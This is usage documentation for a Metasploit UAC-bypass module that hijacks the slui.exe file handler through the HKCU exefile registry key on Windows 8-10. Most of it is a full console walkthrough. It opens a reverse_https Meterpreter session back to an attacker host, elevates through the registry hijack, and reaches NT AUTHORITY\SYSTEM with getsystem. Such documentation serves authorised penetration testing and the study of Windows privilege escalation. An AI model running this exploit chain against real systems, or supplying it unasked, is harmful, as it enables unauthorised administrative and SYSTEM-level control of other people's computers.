## Introduction

  This module will bypass UAC on Windows 8-10 by hijacking a special key in the Registry under
  the Current User hive, and inserting a custom command that will get invoked when
  any binary (.exe) application is launched. But slui.exe is an auto-elevated binary that is
  vulnerable to file handler hijacking. When we run slui.exe with changed Registry key
  (HKCU:\Software\Classes\exefile\shell\open\command), it will run our custom command as Admin
  instead of slui.exe.

  The module modifies the registry in order for this exploit to work. The modification is
  reverted once the exploitation attempt has finished.

  The module does not require the architecture of the payload to match the OS. If
  specifying EXE::Custom your DLL should call ExitProcess() after starting the
  payload in a different process.

## Usage

  1. First we need to obtain a session on the target system.
  2. Load module: `use exploit/windows/local/bypassuac_sluihijack`
  3. Set the `payload`: `set payload windows/x64/meterpreter/reverse_tcp`
  4. If an existing handler is configured to receive the elevated session,
  then the module's handler should be disabled: `set DisablePayloadHandler true`.
  5. Configure the `payload`.
  6. `Exploit` it.

## Scenarios

```
msf exploit(multi/handler) > 
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: d4iywkip) Encoded stage with x86/shikata_ga_nai
[*] https://192.168.0.30:443 handling request from 192.168.0.33; (UUID: d4iywkip) Staging x86 payload (180854 bytes) ...
[*] Meterpreter session 1 opened (192.168.0.30:443 -> 192.168.0.33:49875) at 2018-04-07 18:33:11 +0200

msf exploit(multi/handler) > sessions 

Active sessions
===============

  Id  Name  Type                     Information                 Connection
  --  ----  ----                     -----------                 ----------
  1         meterpreter x86/windows  WIN10-01\user01 @ WIN10-01  192.168.0.30:443 -> 192.168.0.33:49875 (192.168.0.33)

msf exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > sysinfo 
Computer        : WIN10-01
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid 
Server username: WIN10-01\user01
meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > background 
[*] Backgrounding session 1...
msf exploit(multi/handler) > use exploit/windows/local/bypassuac_sluihijack
msf exploit(windows/local/bypassuac_sluihijack) > show targets 

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf exploit(windows/local/bypassuac_sluihijack) > set target 1
target => 1
msf exploit(windows/local/bypassuac_sluihijack) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(windows/local/bypassuac_sluihijack) > set session 1
session => 1
msf exploit(windows/local/bypassuac_sluihijack) > set LHOST 192.168.0.30
LHOST => 192.168.0.30
msf exploit(windows/local/bypassuac_sluihijack) > exploit 

[*] Started HTTPS reverse handler on https://192.168.0.30:8443
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\Sysnative\cmd.exe /c powershell Start-Process C:\Windows\System32\slui.exe -Verb runas
[*] https://192.168.0.30:8443 handling request from 192.168.0.33; (UUID: znqja6ua) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 2 opened (192.168.0.30:8443 -> 192.168.0.33:49881) at 2018-04-07 18:34:39 +0200
[*] Cleaining up registry keys ...

meterpreter > getprivs 

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
